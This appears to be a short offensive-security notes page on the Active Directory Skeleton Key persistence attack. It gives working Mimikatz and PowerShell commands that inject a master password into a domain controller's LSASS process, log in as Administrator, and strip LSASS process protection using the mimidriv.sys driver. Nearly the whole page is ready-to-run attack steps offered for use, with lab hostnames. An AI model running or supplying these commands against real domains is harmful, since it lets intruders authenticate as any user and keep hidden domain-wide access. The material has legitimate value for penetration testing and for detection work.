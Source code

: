# Skeleton Key

Skeleton key is a persistence technique where it is possible to inject malware to the Domain Controller LSASS process so that it allows access as any user with a single password.

## Important to know:

* Require Domain Admin privileges
* Skeleton Key is not persistent across reboots
* Skeleton Key is not opsec safe and is also known to cause issues with AD CS

## Inject a skeleton key

```powershell
# needs DA privs
# password would be "mimikatz"
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

## Access any machine

```powershell
Enter-PSSession -Computername dcorp-dc -credential dcorp\Administrator
```

### LSASS running as a protected process

In case Lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC

```
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```

more detailed&#x20;

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/persistence/skeleton-key-attack" %}

